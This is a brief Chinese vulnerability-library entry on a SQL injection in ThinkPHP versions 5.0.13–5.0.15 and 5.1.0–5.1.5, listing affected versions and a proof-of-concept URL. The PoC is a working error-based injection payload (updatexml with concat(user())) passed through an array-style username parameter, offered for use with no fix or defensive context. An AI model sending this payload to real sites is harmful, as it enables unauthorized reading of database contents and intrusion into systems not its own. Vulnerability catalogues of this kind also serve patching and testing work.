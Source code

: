 ```yaml
---
title: 'Thinkphp 5.0.(13-15)&5.1.(0-5) sql注入漏洞'
date: Sat, 03 Oct 2020 16:23:53 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


### 漏洞影响

5.0.13<=ThinkPHP<=5.0.15 5.1.0<=ThinkPHP<=5.1.5

### 漏洞POC

没开启debug看不到报错信息```
http://*********/index/index/index?username[0]=inc&username[1]=updatexml(1,concat(0x7,user(),0x7e),1)&username[2]=1 
```